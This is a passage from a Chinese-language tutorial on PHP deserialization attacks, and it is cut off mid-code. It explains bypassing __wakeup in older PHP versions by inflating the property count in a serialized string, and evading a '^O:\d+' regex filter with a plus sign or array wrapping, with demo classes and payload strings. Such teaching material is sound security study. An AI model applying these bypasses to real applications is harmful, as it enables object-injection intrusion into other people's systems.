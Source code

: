 

### 绕过__wakeup

> **版本：**
> • PHP5 < 5.6.25
> • PHP7 < 7.0.10

**利用方式：**序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行

例如：

```php
<?php
class test
{
    public $a;
    public function __construct()
    {
        $this->a = 'abc';
    }
    public function __wakeup()
    {
        $this->a = '666';
    }
    public function __destruct()
    {
        echo $this->a;
    }
}
```

```
如果执行unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');输出结果为666

而把对象属性个数的值增大：
执行unserialize('O:4:"test":2:{s:1:"a";s:3:"abc";}');输出结果为abc
```



### 绕过部分正则

**正则表达式：**描述了一种字符串匹配的模式（pattern），可以用来检查一个串是否含有某种子串、将匹配的子串替换或者从某个串中取出符合某个条件的子串等。

```
preg_match('/^O:\d+/')
//匹配序列化字符串是否是对象字符串开头
```

利用加号绕过（在url传参时注意+编码为`%2B`）

 `serialize(array(a))` a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的$a的析构)

```php
<?php
class test
{
    public $a;
    public function __construct()
    {
        $this->a = 'abc';
    }
    public function __destruct()
    {
        echo $this->a . PHP_EOL;
    }
}

function match($data){
```